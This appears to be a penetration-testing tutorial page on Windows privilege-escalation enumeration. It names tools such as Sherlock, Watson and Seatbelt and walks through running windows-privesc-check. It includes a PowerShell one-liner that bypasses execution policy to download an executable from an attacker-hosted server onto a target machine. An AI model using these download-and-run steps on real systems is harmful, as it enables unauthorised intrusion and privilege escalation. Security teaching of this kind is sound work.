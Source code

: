 ### Netcat Reverseshell Oneliners for Windows
Sometimes it is helpful to create a new Netcat session from an existed limited shell, webshell or unstable (short lived) remote shell.



# Windows Enumeration
*NOTE* There are many executables that could provide privledge escalation if they are being run by a privledged user, most can be found on the incredible LOLBAS project:
https://lolbas-project.github.io/

## Automated Windows Enumeration Scripts
We are also going to look a a few automated methods of performing Windows Enumeration including:
* WindownPrivEsc.exe
* Sherlock
* Watson
* JAWZ
* Seatbelt

### Running Windows Privesc Check (windows-privesc-check)
The Windows Privesc Check is a very powerful tool for finding common misconfigurations in a Windows system that could lead to privledge escalation.  It has not been updated for a while, but it is still as effective today as it was 5 years ago. The downside of this script is that it was written in Python and if the target system does not have Python installed, you will need to use an executable version that has a Python interpreter built in.  Having to include Python in the package makes the executable version is pretty large, coming in at a whopping 7.14 MB!!

First we will need to clone the latest version to our environment:
```bash
root@kali:~/tools# git clone https://github.com/pentestmonkey/windows-privesc-check
Cloning into 'windows-privesc-check'...
remote: Enumerating objects: 1232, done.
remote: Total 1232 (delta 0), reused 0 (delta 0), pack-reused 1232
Receiving objects: 100% (1232/1232), 34.79 MiB | 4.61 MiB/s, done.
Resolving deltas: 100% (897/897), done.
```
Next we will need to setup a simple python HTTP webserver in Kali to host the file which the remote Windows box can download it from:
```bash
root@kali:~/tools# cd windows-privesc-check/
root@kali:~/tools/windows-privesc-check# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
Now we will need to transfer the file to our remote windows box:
```
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/windows-privesc-check2.exe\", \"C:\\Users\\Public\\Downloads\\windows-privesc-check2.exe\");
```
And now we run the executeable on the remote machine. I like run with all the audit enabled like so:
```
C:\Users\Admin>cd ..
C:\Users>cd Public
C:\Users\Public>cd Downloads
C:\Users\Public\Downloads>windows-privesc-check2.exe --audit -a -o report
windows-privesc-check v2.0svn198 (http://pentestmonkey.net/windows-privesc-check)...
```
The windows-privesc-check will create a detailed HTML report and text based report for your review.
